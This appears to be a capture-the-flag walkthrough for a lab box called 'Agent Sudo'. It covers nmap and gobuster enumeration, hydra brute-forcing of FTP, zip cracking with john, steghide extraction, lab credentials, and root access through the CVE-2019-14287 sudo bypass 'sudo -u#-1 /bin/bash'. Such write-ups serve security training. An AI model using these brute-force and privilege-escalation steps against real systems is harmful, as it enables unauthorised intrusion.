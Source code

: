 # Agent Sudo

You found a secret server located under the deep sea.  
Your task is to hack inside the server and reveal the truth.

### Task 2: Enumerate  
### Task 3: Hash cracking and brute-force  
### Task 4: Capture the user flag  
### Task 5: Privilege escalation

## nmap

```sh
# ip = 10.10.55.182 # new
# command = nmap -sV -sC -v 10.10.224.246
# result
Scanning 10.10.224.246 [1000 ports]
Discovered open port 22/tcp on 10.10.224.246
Discovered open port 21/tcp on 10.10.224.246
Discovered open port 80/tcp on 10.10.224.246

21/tcp  open     ftp            vsftpd 3.0.3

22/tcp  open     ssh            OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)

80/tcp  open     http           Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

902/tcp filtered iss-realsecure

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

# Http_80

## ip = 10.10.55.182

To Do List  

- run gobuster  
- surf the web  
- view source code  
- robots.txt  
- gobuster  


## command 
```sh
gobuster dir -u http://10.10.55.182 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
## Result
Nothing much 

## surf the web
Let's try spoofing as C and get the same URL with curl.  
-A allows us to spoof the user agent and -L follows any redirects.

Now we have a user chris but not sure it's for ssh or ftp.

# ftp-21

## bruteforce
```sh
hydra -L users.txt -P passwords.txt <IP> ftp 
# hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.55.182 ftp
```

## Result
ftp details  
- user name: chris  
- password: crystal  
log in!!!
```sh
ftp chris@10.10.55.182 
```

we got the file, concatenate it:

Will have to go back and get the images. We run binwalk on the png file which is the most likely to contain some hidden files.

We get these three files:

- 365  
- 365.zlib  
- 8702.zip  
- To_agentR.txt  

The zip file is encrypted. We can use john to crack the password:

```sh
zip2john 8702.zip > forjohn
john forjohn.txt
```
Password = alien  
Unzip the files. 
 
You may get errors extracting the files using unzip, if so, use 7z e <zipfile>

## command 
```sh
 7z e 8702.zip
 ```  

Use CyberChef to decode  
“QXJlYTUx” = Area51 = password for steg.  
We can now use steghide on the image that we never used.
```sh
steghide info cute-alien.jpg 
steghide extract -sf cute-alien.jpg 
cat message.txt
```

### Details
With these details and the unused port (22 = ssh), we can try logging in.

Details 
- username: `james`
- password: `hackerrules!`

## Command 
```sh
 ssh james@10.10.55.182 
# password = hackerrules!
```
# Privilege escalation
Run sudo -l  
Google search for the exploit: CVE:2019-14287  
In the exploit page, we get:  
```sh
 sudo -u#-1 /bin/bash
 #Read the root flag. """
```
